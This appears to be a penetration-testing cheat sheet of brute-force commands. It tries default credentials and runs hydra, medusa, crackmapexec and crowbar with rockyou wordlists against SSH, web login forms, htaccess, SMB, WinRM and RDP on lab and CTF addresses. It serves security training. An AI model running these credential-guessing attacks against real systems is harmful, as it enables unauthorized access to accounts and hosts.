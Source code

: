 # Brute Force List

## Before Brute Force Rules

### Default Credentials

Always try default credentials first. Often, you will find that default configurations use the same password as the username:

```
admin:admin
username:username
```

Search on the internet to find the default credentials of a service or application:

```
default credentials of <service_name_here>
<service_name_here> default credentials
```

SecLists has a nice default credentials wordlists:

{% embed url="https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv" %}

## SSH

```shell
hydra -l username -P rockyou.txt ssh://<IP>
```

## HTTP POST

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=^USER^&userpw=^PASS^:User unknown or password wrong"
```

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

### htaccess

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

## SMB

```
hydra -L users.txt -p password smb://10.10.10.169
```

```
hydra -l username -P passwords.txt smb://10.10.10.169
```

```
hydra -L users.txt -P passwords.txt smb://10.10.10.169
```

```
crackmapexec smb 10.10.11.129 -u usernames.txt -p password123 --continue-on-success
```

```
crackmapexec smb 10.10.11.129 -u users.txt -p passwords.txt --continue-on-success | grep -F '[+]
```

## WinRM

```shell
crackmapexec winrm 10.10.140.97 -u username -p passwords.txt
```

## RDP

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
